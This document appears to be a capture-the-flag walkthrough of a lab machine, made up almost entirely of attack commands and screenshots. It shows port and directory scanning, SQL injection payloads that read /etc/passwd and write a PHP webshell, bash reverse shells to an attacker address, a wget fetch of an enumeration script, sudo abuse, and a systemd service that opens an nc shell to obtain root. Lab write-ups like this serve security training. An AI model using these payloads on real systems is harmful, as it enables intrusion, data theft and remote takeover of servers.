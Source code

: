 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)



![image](https://user-images.githubusercontent.com/33616880/231967279-462d7629-3f4f-4f75-bff1-b82ba0cfeb7b.png)

![image](https://user-images.githubusercontent.com/33616880/231967320-8aa8e60a-e6b3-4552-882e-0ad264e09771.png)



![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)



```
sudo -l
```
![image](https://user-images.githubusercontent.com/33616880/231978294-ddc1284d-62b6-4669-ad17-5b0ec362a773.png)



```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
![image](https://user-images.githubusercontent.com/33616880/231977903-441bb61c-6dad-427e-9d5f-387558289cf6.png)
![image](https://user-images.githubusercontent.com/33616880/231977956-2ac3c680-de93-4e87-8b3c-91a432c7efa6.png)



```
find / -perm -4000 2>/dev/null
```
![image](https://user-images.githubusercontent.com/33616880/231979320-9e90787c-3b50-40e9-b92d-cd4009af4304.png)



```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



